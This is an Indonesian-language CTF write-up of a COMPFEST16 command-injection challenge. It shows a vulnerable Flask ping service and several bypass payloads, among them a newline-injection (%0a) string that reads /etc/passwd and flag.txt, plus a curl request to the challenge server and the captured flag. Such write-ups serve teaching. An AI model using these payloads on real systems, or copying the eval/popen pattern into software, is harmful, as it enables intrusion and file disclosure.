 #CTF #COMPFEST16 #WriteUp #WebExploitation #CommandInjection #COMPFESTHackingClass

>**Flag:** `COMPFEST16{bj1rrr_1njEKs1_p3rInTAH_96530087aa}`

![compfest16-hackingclass-pink00.png](./img/compfest16-hackingclass-pink00.png)
![compfest16-hackingclass-pink01.png](./img/compfest16-hackingclass-pink01.png)
### Write Up:
Dilampirkan source code sebagai berikut:
```python
from flask import Flask, render_template, request
import os
import re

app = Flask(__name__)

@app.route("/", methods=["GET", "POST"])

def home():

    if request.method == "GET":
        return render_template("index.html")
    elif request.method == "POST":
        ip = request.form.get("ip")
  
        if re.match(r"\d{1,3}.\d{1,3}.\d{1,3}.\d{1,3}", ip) and not any(char in ip for char in [";", "|", "&", "/" "{", "}"]):

            cmd = "eval \"ping -c 4 " + ip + "\""
            result = os.popen(cmd).read()
            return render_template("index.html", **{"data": result})
        else:
            return render_template("index.html", **{"data": "NO HACKING ALLOWED!!!! >:("})
            
if __name__ == "__main__":

    app.run("0.0.0.0", port=8080)
```

Hal yang dapat kita ketahui dari source code diatas adalah:
- `re.match(r"\d{1,3}.\d{1,3}.\d{1,3}.\d{1,3}"`
	input harus berupa angka dengan limit digit 3 dan dipisahkan dengan titik
- `not any(char in ip for char in [";", "|", "&", "/" "{", "}"])`
	dan tidak mengandung salah satu dari tanda diatas.
- variabel `cmd` berisi perintah yang akan dijalankan dengan memasukkan tambahan input dalam perintahnya dan variabel `result` akan mengembalikan nilai.

Kerentanan yang ada disini terletak pada `eval` dan `os.popen(cmd).read()`
yang rentan terhadap [[-Command Injection]].

Gunakan `Burp Suite` atau `curl` untuk mencoba mengirimkan request kepada server dan menganalisa respon nya. Disini kita masukkan ping localhost (127.0.0.1) atau 0.0.0.0 pada input dan hasilnya akan menjalankan ping sebanyak 4 kali seperti dalam variabel `cmd`

Sebelumnya, dengan memperhatikan karakter yang dilarang oleh code saya mencoba berbagai cara sebagai berikut
1. Bypass `|` dan `;` menggunakan hex
```
127.0.0.1\x3bcat\x20/etc/passwd
127.0.0.1\x7ccat\x20/etc/passwd
127.0.0.1`\7ccat\20/etc/passwd`
127.0.0.1`\3bcat\20/etc/passwd`
```
2. Menggunakan `$`
```
127.0.0.1$(cat /etc/passwd)
```

Namun, tidak berhasil. Setelah mencari referensi dan petunjuk ada titik terang
```
127.0.0.1 %0a cat /etc/passwd
```

`%0a` adalah representasi URL-encoded dari `\n`, banyak aplikasi web dan API modern yang secara otomatis men decode input URL-encoded, sehingga `%0a` akan diubah kembali menjadi newline `(\n)`.

Kita berhasil menampilkan `cat /etc/passwrd`. Setelah dianalisa, tidak ada informasi user didalamnya. Maka, kita mencoba cek dalam directory `/` menggunakan `ls -a`

![compfest16-hackingclass-pink02.png](./img/compfest16-hackingclass-pink02.png)

Bingo, terdapat file yang bernama `flag.txt`, dan setelah dicek ternyata bukan dummy flag tetapi riil flag.

![compfest16-hackingclass-pink03.png](./img/compfest16-hackingclass-pink03.png)

Jika menggunakan curl maka perintah nya sebagai berikut:
```
curl -X POST -d "ip=127.0.0.1%0a cat flag.txt" http://challenges.ctf.compfest.id:20001/
```

Tamat!!!

Cara lain yang lebih simpel adalah berikut:
```
0.0.0.0$(echo "\n flag.txt")
```

